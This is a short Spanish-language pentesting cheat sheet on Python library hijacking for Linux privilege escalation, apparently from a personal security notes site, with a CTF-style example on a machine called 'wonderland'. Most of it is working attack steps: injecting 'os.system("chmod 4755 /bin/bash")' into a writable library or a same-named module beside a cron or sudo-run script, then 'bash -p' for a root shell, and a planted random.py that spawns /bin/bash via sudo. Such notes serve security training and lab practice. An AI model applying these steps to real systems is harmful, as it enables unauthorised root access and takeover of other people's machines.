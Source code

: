 ```yaml
---
title: "Python Library Hijacking"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/python-library-hijacking"
date: "2025-09-30"
---
```


## Con tarea cron 

Si nos encontramos un binario de python, que se ejecuta a cada rato o sospechamos que lo hace (YA QUE SI NO LO EJECUTA NUESTRO USUARIO NO LO VEREMOS EN EL CRONTAB) y que tenemos permisos para ejecutarlo pero no para editarlo, no está todo perdido. En ocasiones, algun usuario puede pertenecer a algún grupo que tenga permisos de edición sobre las librerías de python o sobre el directorio en que se encuentra dicho binario.py.

Ejemplo de librería: **/usr/lib/python2.7/ftplib.py**
```bash
### BUSCAR EN TODO EL SISTEMA DE FICHEROS, BINARIOS QUE PERTENEZCAN AL GRUPO
find / -group "grupo" -ls -la 2>/dev/null
```

### Si podemos editar la librería
Si la podemos editar, en alguna parte de su código podemos añadir:
```bash
import os
os.system("chmod 4755 /bin/bash")
```

### Si no podemos editar la librería

Creamos un fichero .py con el nombre de la librería que intenta importar. **Este fichero debe estar en el mismo directorio que el .py que se va a ejecutar**
```python
### CONTENIDO A AGREGAR EN LA LIBRERÍA QUE UTILICE NUESTRO BINARIO.PY DETECTADO
import os
os.system("chmod 4755 /bin/bash")
```

Luego basta con un simple:
```bash
bash -p
```

## Con Sudo -L
Ejemplo, al hacer sudo -L vemos que un usuario puede ejecutar un script en python, y vamos a pivotar a ese usuario.
```bash
aliceawonderland:-$ sudo -l 

User alice may run the following commands on wonderland: (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Teniendo ese script en python, que no podemos editar, pero importa una librería:
```python
import random

resto del script
```

Si creamos un **random.py** en el mismo directorio que el script, este script al importar random, en realidad está importando nuestro random.py. Con lo que podemos introducir en random.py el siguiente código:
```python
import os
os.system("/bin/bash")
```

Luego basta con:
```bash
sudo -u <rabbit> /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
